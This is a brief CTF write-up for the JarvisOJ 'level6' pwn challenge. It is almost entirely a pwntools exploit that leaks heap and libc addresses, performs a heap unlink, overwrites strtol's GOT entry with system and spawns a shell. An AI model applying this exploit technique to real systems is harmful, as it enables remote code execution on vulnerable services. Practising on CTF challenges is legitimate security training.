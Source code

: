 ```yaml
---
layout:     post
title:      jarvisoj level6
author:     wooy0ung
tags: 		pwn
category:  	writeup
---
```



>Problem Address:  
>https://www.jarvisoj.com  
>  
>Download:  
>https://dn.jarvisoj.com/challengefiles/level6.rar.fbf2e2c84e0371082703e2753a3bc514  
>  
>Address:  
>nc pwn2.jarvisoj.com 9885  
<!-- more -->


### 0x00 exploit

level6_x64的32位版本, 分析过程在Guestbook2

#### 传送门: [Guestbook2](http://www.wooy0ung.me/writeup/2017/07/31/jarvisoj-guestbook2/)

完整的exploit如下

```
from pwn import *

Io = remote('pwn2.jarvisoj.com', 9885)
#Io = process('./freenote_x86')
bin = ELF('./freenote_x86')
libc = ELF('./libc-2.19.so')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')

def add_post(content):
	Io.sendline('2')
	Io.recvuntil('Length')
	Io.sendline(str(len(content)))
	Io.recvuntil('Enter')
	Io.send(content)
def edit_post(idx,content):
	Io.sendline('3')
	Io.recvuntil('number')
	Io.sendline(str(idx))
	Io.recvuntil('Length')
	Io.sendline(str(len(content)))
	Io.recvuntil('Enter')
	Io.send(content)
def del_post(idx):
	Io.sendline('4')
	Io.recvuntil('number')
	Io.sendline(str(idx))
def get_post(content):
  	Io.recvuntil('Your choice: ')
  	Io.sendline('1')
  	Io.recvuntil(content)
  	return Io.recvuntil('\n')

#-----------------init-------------------
for i in range(4):
	add_post('a')

del_post(0)
del_post(2)

add_post('1234')

#--------------leak heap_base-------------
leak_data = get_post('1234')
heap_addr = u32(leak_data[:-1].ljust(0x4,'\x00'))
heap_base = heap_addr - 0xd28
chunk_addr = heap_base + 0x18
success("heap_base: "+hex(heap_base))

del_post(0)
del_post(1)
del_post(3)

#-----------------unlink------------------
size0 = 0x80+0x88+0x88
add_post(p32(0)+p32(size0+1)+p32(chunk_addr-0xc)+p32(chunk_addr-0x8))
add_post("/bin/sh\x00")
add_post("a"*0x80+p32(size0)+p32(0x88)+"a"*0x80+(p32(0)+p32(0x89)+"a"*0x80)*2)
del_post(3)

#------------leak system_addr-------------
strtol_got = bin.got['strtol']

edit_post(0, p32(1)+p32(1)+p32(4)+p32(strtol_got))
leak_data = get_post('0. ')
strtol_addr = u32(leak_data[:-1].ljust(0x4,'\x00'))
system_addr = strtol_addr - libc.symbols['strtol'] + libc.symbols['system']
success("strtol: "+hex(strtol_addr))
success("system: "+hex(system_addr))

#-------------------pwn--------------------
edit_post(0, p32(system_addr))
Io.sendline("$0")
Io.interactive()
```

getshell

![](/assets/img/writeup/pwn/2017-08-03-jarvisoj-level6/0x00.png)